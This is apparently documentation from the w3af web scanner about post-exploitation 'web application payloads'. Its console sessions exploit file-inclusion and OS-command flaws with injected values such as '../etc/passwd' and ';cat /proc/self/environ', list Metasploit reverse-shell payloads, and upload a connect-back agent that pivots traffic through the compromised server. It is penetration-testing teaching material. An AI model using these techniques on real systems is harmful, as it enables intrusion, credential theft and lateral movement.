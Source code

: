 Web Application Payloads
========================

Introduction
------------

From the hundreds of different Web Application Vulnerabilities that can be found on any web application, **only a small percentage gives the intruder a direct way for executing operating system commands.** And if we keep digging into that group we’ll identify only one or two that under normal circumstances might give the intruder elevated privileges.

Keeping always in mind that the objective of the penetration tester is to gain a root shell in the remote server, Web applications seem to offer more resistance than classic memory corruption exploits; which is true if you have a 0day exploit developed within the Metasploit framework that matches the remote server installation, but if not... **the Web might be the only way in.**

Until now, the exploitation of these vulnerabilities, and the steps needed to achieve access with a user of elevated privileges had to be performed manually, which could in many situations take hours (depending on the web application penetration tester’s skills) and may or may not achieve its objective.

Web Application Payloads are the evolution of old school system call payloads which are used in memory corruption exploits since the 80's. The basic problem solved by any payload is pretty simple: "I have *access* , what now?". In memory corruption exploits it's pretty easy to perform arbitrary tasks because after successful exploitation the attacker is able to control the remote CPU and memory, which allow for execution of arbitrary operating system calls. With this power it’s possible to create a new user, run arbitrary commands or upload files.


In the Web Application field *the situation is completely different*, the intruder is restricted to the "system calls" that the vulnerable Web Application script exposes. For example:

 * Arbitrary File Read Vulnerabilities *exposes* **read()**
 * OS Commanding Vulnerabilities *exposes* **exec()**
 * SQL Injection Vulnerabilities *exposes* **read(), write() and potentially exec()**

Web Application Payloads are small pieces of code that are run in the intruder’s box, and then translated by the Web Application exploit to a combination of GET and POST requests to be sent to the remote Web server. For example, a call to the emulated syscall read() with ``/proc/self/environ`` as a parameter would generate this request when it’s run through an arbitrary file read vulnerability: ``http://host.tld/read.php?file=/proc/self/environ``

And this other request when exploiting an OS Commanding vulnerability ``http://host.tld/os.php?cmd=;cat /proc/self/environ``


Running Web Application Payloads
--------------------------------

The following is a console dump from w3af scanning a vulnerable application, exploiting a vulnerability and then running the ``list_processes`` payload:


.. code-block:: none

    w3af>>> plugins
    w3af/plugins>>> audit lfi
    w3af/plugins>>> back
    w3af>>> target
    w3af/config:target>>> set target http://localhost/local_file_read.php?file=section.txt
    w3af/config:target>>> back
    w3af>>> start
    Found 1 URLs and 1 different points of injection.
    The list of URLs is:
    - http://localhost/local_file_read.php
    The list of fuzzable requests is:
    - http://localhost/local_file_read.php | Method: GET | Parameters: (file="section.txt")
    Starting lfi plugin execution.
    Local File Inclusion was found at: "http://localhost/local_file_read.php", using HTTP method GET.
    The sent data was: "file=../../../../../../../../etc/passwd".
    This vulnerability was found in the request with id 3.
    Finished scanning process.
    w3af>>> exploit
    w3af/exploit>>> exploit local_file_reader
    local_file_reader exploit plugin is starting.
    - [0] <shell object (rsystem: "*nix")>
    Please use the interact command to interact with the shell objects.
    w3af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell. Commands typed in this menu will be
    runned through the local_file_reader shell
    w3af/exploit/local_file_reader-0>>> payload list_processes
    ...
    PID   NAME   STATUS          CMD
    1     init   S (sleeping)    /sbin/init
    5183  mysqld S (sleeping)    /usr/sbin/mysqld
    w3af/exploit/local_file_reader-0>>>


This shows how it's possible to retrieve the **full list of running process with a simple arbitrary file read vulnerability.** Similar examples that are able to read the open TCP/IP connections, operating system IP route table, and much more information are not shown for the sake of brevity.

The ``lsp`` command lists the available payloads, it's important to notice that the list of payloads that can be run changes based on the used exploit. For example, running ``lsp`` inside a remote file inclusion shell will most likely return a list of all payloads, while running it inside a local file read shell will return the payloads that can be run when the vulnerability exposes only the read() syscall.


Metasploit integration
----------------------

There are a set of web application payloads which can be used to interact with the metasploit framework. When the exploit provides the exec() syscall to the payloads, this allows the w3af user to upload metasploit payloads to the target system and execute them to continue the post-exploitation process.

*   msf_linux_x86_meterpreter_reverse
*   msf_windows_meterpreter_reverse_tcp
*   msf_windows_vncinject_reverse
*   metasploit
*   Identify the vulnerability during a scan
*   Exploit the vulnerability
*   Run “payload <payload_name>”


Proxying traffic through the compromised host
---------------------------------------------

Also implemented as a web application payload, this feature allows you to create a reverse tunnel that will route TCP connections through the compromised server. Before going through an example to see how to use this feature, we will make a summary of the steps that will happen
during exploitation:

#.  w3af finds a vulnerability that allows remote command execution
#.  The user exploits the vulnerability and starts the w3af_agent
#.  w3af performs an extrusion scan by sending a small executable to the remote server. This executable connects back to w3af and allows the framework to identify outgoing firewall rules on the remote network.
#.  w3af_agent manager will send a w3afAgentClient to the remote server.
    The process of uploading the file to the remote server depends on the remote operating system, the privileges of the user running w3af and the local operating system; but in most cases the following happens:
*   w3af reuses the information from the first extrusion scan, which was performed in step 3 in order to know which port it can use to listen for connections from the compromised server.
*   If a TCP port is found to be allowed in the remote firewall, w3af will try to run a server on that port and make a reverse connection from the compromised in order to download the PE/ELF generated file. If no TCP ports are enabled, w3af will send the ELF/PE file to the remote server using several calls to the “echo” command, which is rather slow, but should always work because it's an in-band transfer method.

#.  w3af_agent manager starts the w3afAgentServer that will bind on localhost:1080 (which will be used by the w3af user) and on the interface configured in w3af ( misc-settings->interface ) on the port discovered during step 3.
#.  The w3afAgentClient connects back to the w3afAgentServer, successfully creating the tunnel
#.  The user configures the proxy listening on localhost:1080 on his preferred software
#.  When the program connects to the socks proxy, all outgoing connections are routed through the compromised server

Now that we know the theory, let's see an example of what this feature can do:

.. code-block:: none

    **w3af>>>** plugins
    **w3af/plugins>>>** audit os_commanding
    **w3af/plugins>>>** back
    **w3af>>>** target
    **w3af/target>>>** set target http://172.10.10.1/w3af/v.php?c=list
    **w3af/target>>>** back
    **w3af>>>** start
    The list of found URLs is:
    - http://172.10.10.1/w3af/v.php
    Found 1 URLs and 1 different points of injection.
    The list of Fuzzable requests is:
    - http://172.10.10.1/w3af/v.php | Method: GET | Parameters: (c)
    Starting os_commanding plugin execution.
    OS Commanding was found at: http://172.10.10.1/w3af/v.php . Using method: GET.
    The data sent was: c=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
    **w3af>>>** exploit
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19-generic i686 GNU/Linux")>
    Please use the interact command to interact with the shell objects.
    **w3af/exploit>>>** interact 0
    Execute "end_interaction" to get out of the remote shell.
    Commands typed in this menu will be runned on the remote web server.
    **w3af/exploit/os_commanding-0>>>**

Nothing really new until now, we configured w3af, started the scan and exploited the vulnerability.

.. code-block:: none

    **w3af/exploit/os_commanding-0>>>** payload w3af_agent
    Usage: w3af_agent <your ip address>
    **w3af/exploit/os_commanding-0>>>** payload w3af_agent 172.1.1.1
    Please wait some seconds while w3af performs an extrusion scan.
    The extrusion scan failed.
    Error: The user running w3af can't sniff on the specified interface. Hints: Are you root?
    Does this interface exist?
    Using inbound port "8080" without knowing if the remote host will be able to connect back.

The last messages are printed when you run w3af as a normal user, the reason is simple, when you run w3af as a user you can't sniff and therefor can't perform a successful extrusion scan. A successful extrusion scan would look like:

.. code-block:: none

    Please wait some seconds while w3af performs an extrusion scan.
    ExtrusionServer listening on interface: eth1
    Finished extrusion scan.
    The remote host: "172.10.10.1" can connect to w3af with these ports:
    - 25/TCP
    - 80/TCP
    - 53/TCP
    - 1433/TCP
    - 8080/TCP
    - 53/UDP
    - 69/UDP
    - 139/UDP
    - 1025/UDP
    The following ports are not bound to a local process and can be used by w3af:
    - 25/TCP
    - 53/TCP
    - 1433/TCP
    - 8080/TCP
    Selecting port "8080/TCP" for inbound connections from the compromised server to w3af.

In both cases (superuser and user), these should be the following steps:

.. code-block:: none

    Starting w3afAgentClient upload.
    Finished w3afAgentClient upload.
    Please wait 30 seconds for w3afAgentClient execution.
    w3afAgent service is up and running.
    You may start using the w3afAgent that is listening on port 1080. All connections made
    through this SOCKS daemon will be relayed using the compromised server.


And now, from another console we can use a socksClient to route connections through the compromised server:

.. code-block:: console

    $ nc 172.10.10.1 22
    (UNKNOWN) [172.10.10.1] 22 (ssh) : Connection refused
    $ python socks_client.py 127.0.0.1 22
    SSH-2.0-OpenSSH_4.3p2 Debian-8ubuntu1
    Protocol mismatch.

Where the socks_client.py code looks like:

.. code-block:: python

    import extlib.socksipy.socks as socks
    import sys

    s = socks.socksocket()
    s.setproxy(socks.PROXY_TYPE_SOCKS4,"localhost")
    s.connect((sys.argv[1],int(sys.argv[2])))

    s.send('\n')
    print s.recv(1024)
